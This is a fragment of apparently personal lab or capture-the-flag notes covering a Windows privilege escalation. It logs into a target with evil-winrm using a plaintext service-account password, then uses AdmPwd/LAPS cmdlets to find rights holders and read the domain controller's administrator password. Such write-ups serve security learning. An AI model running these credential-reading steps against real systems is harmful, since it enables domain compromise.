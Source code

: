     ```bash
    Nova sessão 
    evil-winrm -i 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S
    ```
    

# AdmPwd

- AdmPwd
    
    ```bash
    upload AdmPwd.PS
    Find-AdmPwdExtendedRights -identity *
    ```
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2011.png)
    
    ```bash
    Find-AdmPwdExtendedRights -identity 'Domain Controllers' | select-object ExtendedRightHolders
    ```
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2012.png)
    
    ```bash
    get-admpwdpassword -computername dc01 | Select password
    ```
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%2013.png)
    